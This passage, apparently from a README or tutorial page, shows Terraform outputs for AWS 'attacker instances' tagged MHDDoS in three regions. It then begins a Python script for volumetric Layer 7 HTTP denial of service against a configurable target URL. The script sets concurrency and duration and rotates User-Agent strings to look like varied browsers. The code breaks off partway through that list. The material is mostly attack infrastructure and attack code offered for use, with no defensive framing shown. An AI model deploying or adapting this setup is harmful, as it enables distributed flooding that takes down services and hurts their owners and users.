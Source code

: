 ```hcl
  tags = {
    Name = "MHDDoS-AP-South"
  }
}


# Output public IPs of each region
output "eu_north_instance_ips" {
  description = "The public IPs of the EU-North attacker instances"
  value       = aws_instance.mhddos_eu_north[*].public_ip
}

output "eu_west_instance_ips" {
  description = "The public IPs of the EU-West attacker instances"
  value       = aws_instance.mhddos_eu_west[*].public_ip
}

output "ap_south_instance_ips" {
  description = "The public IPs of the AP-South attacker instances"
  value       = aws_instance.mhddos_ap_south[*].public_ip
}

```  

Here is the `ddos_script.py` a "vanilla" python script to do volumetric Layer 7 (http) DoS against a specified target url (you can modify this script to use less resource-intensive techniques like [*slow loris*](https://en.wikipedia.org/wiki/Slowloris_(cyber_attack)):  

```python
# Simple python script for Layer 7 volumetric DoS

import aiohttp
import asyncio
import random
from datetime import datetime

# Global variables (modify these)
DRY_RUN = False  # Set to True to simulate requests
TARGET_URL = "https://your-target-here.com"
DURATION = 4  # Total duration of the attack in seconds
CONCURRENCY = 150  # Number of concurrent tasks
REQUEST_TIMEOUT = 3  # Timeout for each request in seconds
# List of User-Agent strings
USER_AGENTS = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0",
    "Mozilla/5.0 (iPhone; CPU iPhone OS 14_6 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0 Mobile/15E148 Safari/604.1",
    "Mozilla/5.0 (Linux; Android 11; SM-G991B) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Mobile Safari/537.36",
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.64 Safari/537.36",
    "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
    "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36",
    "Mozilla/5.0 (Linux; Android 10; SM-A505FN) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Mobile Safari/537.36",
```
